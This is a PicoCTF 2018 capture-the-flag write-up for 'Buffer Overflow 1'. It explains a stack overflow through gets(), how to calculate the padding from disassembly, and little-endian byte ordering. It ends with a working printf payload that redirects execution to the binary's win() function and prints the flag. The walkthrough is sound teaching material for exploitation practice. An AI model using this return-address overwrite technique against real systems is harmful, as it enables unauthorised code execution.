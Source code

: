 ```yaml
---
title:  PicoCTF 2018 - Buffer Overflow 1
description: The training-wheels come off, and you have to use the buffer-overflow vulnerability to execute a specific bit of code at an exact location in memory. Can you get it to work?
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Buffer Overflow 1

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}).

## Spot the Bug

Once again, finding the bug is easy, as it's almost identical to the [last challenge]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-0.md %}):

```c
#define BUFSIZE 32

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

The buffer once again lives on the stack and has a fixed size (32 bytes). There are no other variables on the stack. The `gets` function is used, which is highly **unsafe**, as it will copy characters from `stdin` until either a newline character is found or the *end-of-file* is reached, making it trivial to overflow the `buf` variable and overwrite anything following it in memory, including the stack frame's preserved `ebp` register and *return address*.

## Strategy

Now that we found the bug, we need a plan to use that bug in a way that will allow us to capture the flag. They've taken off the training wheels *slightly* here, as there is no segfault handler registered. However, there **is** a handy dandy function that will print out the flag if called:

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

Since we no longer have a default-crash handler to fallback on, we will have to actually change the flow of execution so that the `win()` function gets called. Here, the `win()` function has been compiled into the program and exists within the `.text` segment of the binary at a fixed address (ASLR does not apply as the program is not compiled as a [Position-independent Executable](https://en.wikipedia.org/wiki/Position-independent_code) or *PIE*). **Note**: if you install [`pwntools`](https://github.com/Gallopsled/pwntools) you can run `checksec` from your shell to quickly check the security properties of binaries, including whether they are compiled as PIE. Use `readelf -s` or `objdump -t` to display the address of all the exported symbols within the binary:

```
$ checksec ./vuln
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

$ readelf -s ./vuln | grep win
    67: 080485cb   100 FUNC    GLOBAL DEFAULT   14 win
```
{:.contains-term}

In this case, the code for the function `win()` begins at the address `0x080485cb`. 

If you were paying attention during [buffer overflow 0]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-0.md %}) you might have a good idea of what to do now, so go and attempt the problem located at `/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613` on the shell server.

## Background Info

You should recall from [buffer overflow 0]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-0.md %}) that the stack looks something like this after calling `vuln()`:

| lower addresses | 🡆 | 🡆 | higher addresses |
| --- | :---: | :---: | --- |
| `buf[32]` | &lt; padding &gt; | &lt;old ebp&gt; | &lt;*return address*&gt; |

In order to change the flow of execution, what we need to do is overwrite the *return address* so that when the `ret` instruction is called, the execution continues at the memory address *we want* (instead of whatever instructions followed the call to `vuln()`). We know there are 32 bytes allocated for the buffer, but we don't yet know for sure how many padding bytes there are.

To figure it out, we once again peak at the assembly code for `vuln()` using `objdump -M intel -S ./vuln`:

```nasm
push   ebp
mov    ebp,esp
sub    esp,0x28
sub    esp,0xc
lea    eax,[ebp-0x28]
push   eax
call   8048430 <gets@plt>
add    esp,0x10
call   80486c0 <get_return_address>
sub    esp,0x8
push   eax
push   0x80487d4
call   8048420 <printf@plt>
add    esp,0x10
nop
leave  
ret  
```

In this case, 0x28 (40) bytes are reserved on the stack, meaning there are an additional **8 bytes of padding**.

**NOTE**: *For the curious, this value of padding is likely chosen because the compiler is required to keep 16-byte alignment on the stack as part of the **ABI**, and reserving 40 bytes in addition to the 4 bytes for the preserved `ebp` register and the 4 bytes for the **return address** results in a total of exactly 48 bytes, which is a multiple of 16. You'll notice the call to `gets` first reserves 0x0c (12) bytes off the stack, before pushing 4 more (the value of `eax`), again resulting in a perfect 16 byte alignment.*

## Exploitation

We've calculated that if we start from the beginning of `buf[]`, then there are exactly 32 (`buf`) + 8 (*padding*) + 4 (*preserved `ebp`*) bytes before the *return address*. We've also determined that we should execute the `win()` function, which is at address `0x080485cb`.

In general, we don't care about the bytes that end up in the `buf[]` variable or the `padding`. We may care about the bytes that end up in the `ebp` register (the previous challenge proved that), but in this case we know that even if returning from `win()` results in a crash, it will have already printed out the flag because the `stdout` stream has been explicitly set to non-buffered (`_IONBF`).

So, when prompted, we should provide 44 bytes of *something* (I arbitrarily chose 0x55, aka 'U', because of the repeating cycle of `0`s and `1`s when represented in binary), followed by the address of `win`. Recall, `gets()` will only copy up to the first newline ('`\n`'), and it will always add a terminating null ('`\0`').

At this point you might be temped to form a string that looks like this:

```
"UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\x08\x04\x85\xcb"
```

However, that won't work:

```
/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613$ printf "UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\x08\x04\x85\xcb" | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0xcb850408
Segmentation fault
```
{:.contains-term}

Why did it *segfault*? The hint is in the helpful printing of the return address. Instead of jumping to `0x080485cb`, the program is jumping to `0xcb850408`. The reason is that memory on many machines, including x86 and x86-64 is little-endian. That means that when storing values larger than 1 byte, the bytes are arranged so that the least-significant byte is stored first, followed by the next least-significant, and so on. The least-significant byte of `0x080485cb` is `0xcb`, and that byte should appear first, followed by `0x85`, `0x04`, and `0x08`. Let's try it:

```
/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613$ printf "UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\xcb\x85\x04\x08" | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{===REDACTED===}Segmentation fault (core dumped)
```
{:.contains-term}

Eh voilà! You've successfully exploited a buffer-overflow vulnerability. Good Job. Head back to our  [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.